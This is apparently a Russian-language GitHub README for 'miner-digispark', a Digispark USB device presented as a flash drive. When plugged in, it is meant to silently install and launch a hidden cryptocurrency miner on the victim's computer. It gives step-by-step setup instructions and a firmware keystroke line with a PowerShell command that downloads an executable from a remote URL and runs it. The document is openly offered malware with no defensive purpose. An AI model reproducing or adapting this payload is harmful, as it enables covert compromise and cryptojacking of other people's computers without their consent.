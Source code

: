 # miner-digispark | Вирус на флешке
_Прошивка для digispark + скрытый майнер_
## Идея
При подключении "флешки" к компютерю будет устанавливаться и запускаться скрытый майнер
## Реализация
- Покупаем  [Digispark](https://alexgyver.ru/lessons/digispark/) 

> [Купить на Ozon](https://ozon.ru/t/Dr8D1GD) | [Купить на AliExpress](https://aliexpress.ru/item/2040316211.html?sku_id=58307777832&spm=a2g2x.productlist.search_results.1.5d115ed1ofwRd7) 

- Устанавливаем [прошивку](firmware.ino) и открываем в [Arduino IDE](https://www.arduino.cc/en/software)
- Создаем майнер (Советую на виртуалке) 
> Видео-инструкция -- https://youtu.be/V3U5QreydyM?si=CV2yRZ7MG-l6zGF8
- Загружаем майнер на github/обменник/сервер (нужен полный путь до файла https://... exe)
- Редактируем прошивку в Arduino IDE под себя
> TrinketKeyboard.print("powershell -c \"Invoke-WebRequest -Uri 'ПРЯМАЯ ССЫЛКА НА ФАЙЛ https://...exe' -OutFile 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'; Start-Process 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'\"");

- Загружаем прошивку [(Инструкция)](https://github.com/Sudox00/miner-digispark/blob/main/manual-firmware.md)
